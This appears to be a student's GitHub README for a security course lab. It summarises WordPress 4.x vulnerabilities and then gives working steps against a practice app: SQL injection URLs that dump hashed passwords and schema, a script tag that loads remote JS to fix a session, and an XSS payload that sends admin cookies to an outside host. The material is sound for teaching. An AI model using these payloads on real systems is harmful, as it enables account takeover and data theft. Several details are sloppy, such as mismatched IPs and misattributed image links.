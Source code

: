 # Weeks-7-8-Project-WordPress-vs.-Kali
Time spent: 30 hours spent in total

## SQL Injection:

This is an SQL injection vulnerability in Wordpress version 4.7.1. This vulnerability allows remote hackers to execute arbitrary commands by taking advantage an affected plugin or theme that mishandles a crafted post type name. This vulnerability requires very little knowledge or skill to exploit and is ranked 7.5 on the Common Vulnerability Scoring System. Authentication is not required to exploit the vulnerability. Modification of files and information on the system is possible, but the scope of what the attacker can affect is limited. 

## CRSF:
This is a cross-site request forgery CSRF vulnerability in the widget-editing accesibility-mode feature in Wordpress version 4.7.1. This allows remote hackers to hijack the authentication of unspcified victims for requestst that allow for widget-access action that is related to wp-aadmin/includes/class-wp-screen.php. This vulnerability has a CVSS score of 6.8. This vulnerability allows for limited scope of modification on the attacker’s behalf. Authenticcation is not required to exploit this vulnerability.

Example of this is found at https://github.com/WordPress/WordPress/commit/03e5c0314aeffe6b27f4b98fef842bf0fb00c733

## DoS:
This vulnerability allows remote attackers to cause a denial of service attack via unspecified vendors due to the oEmbed protocol implementation in the WordPress. This vulnerability existed in Wordpress version 4.5.2 and was secured in the 4.5.3 version. This has a CVSS score of 5.0 and was considered to be a low level of access complexity, meaning that very little knowledge is needed to exploit this. The CWE is not defined for this vulnerability.

## Vulnerability #1: SQL Injection (SQLi)

### Steps to recreate:

- Go to the salespearson page https://104.198.208.81/blue/public/salesperson.php?id=1

- Replace the id parameter with a single quote '. Example: https://104.198.208.81/blue/public/salesperson.php?id='

- After the quote type url encoded SQL command. Example: https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Chashed_password+FROM+users+limit+20+offset+2+--+

- You can interate through the records by changing the LIMIT and OFFSET values

- Some of the example commands:
https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Cdatabase()+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ctable_name+FROM+information_schema.tables+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+ https://35.184.88.145/blue/public/salesperson.php?id=%27+union+select+1%2C2%2C3%2C4%2Ccolumn_name+FROM+information_schema.columns+where+table_schema%3D%27globitek_blue%27+limit+20+offset+2+--+

<img src="https://github.com/Rakesh-Nagaraju/Weeks-7-8-Project-WordPress-vs.-Kali/blob/main/sql_git.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>

## Vulnerability #2: Session Hijacking/Fixation
### Steps to recreate:

- When logged in as an admin go to "Countries, States, & Territories".
- Click on "Show", doesn't matter which country.
- Click on "Add a State".
- Enter values for "Name" and "Code" and click create.
- Click on "Add a Territory".
- Ender a value for "Name".
- In the filed "Position" type:
      <script src="https://bit.ly/2z1UCVh"></script>
- https://bit.ly/2z1UCVh is a shortened link for a js script hosted on GoogeDrive
- Sign in again to the website as an admin
- Now the owner on PHPSESSID hardcoded in js script is logged into the website as an admin
- This is possible because new PHPSESSID is not generated when a used logs into website

<img src="https://github.com/Rakesh-Nagaraju/Weeks-7-8-Project-WordPress-vs.-Kali/blob/main/session_hijacking.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>

## Vulnerability #3: Cross-Site Scripting (XSS)
### Steps to recreate:

- Go to the Contact page.
- In the text area type the following script
  <script>var node = document.createElement('img');
  node.src = "http://192.168.1.2:3000?cookie="+document.cookie;
  document.getElementById("main-content").appendChild(node);</script>
- Submit the form
- When admin checks the feeedback PHPSESSID will be sent to the http://192.168.1.2:3000 address as a GET parameter

<img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_11.gif" width=250> <img src="https://github.com/Rakesh-Nagaraju/FixApp--An-Ios-Movie-Listing-App-/blob/main/gif_Iphone_SE(2ndgen)_part_2.gif" width=250><br>
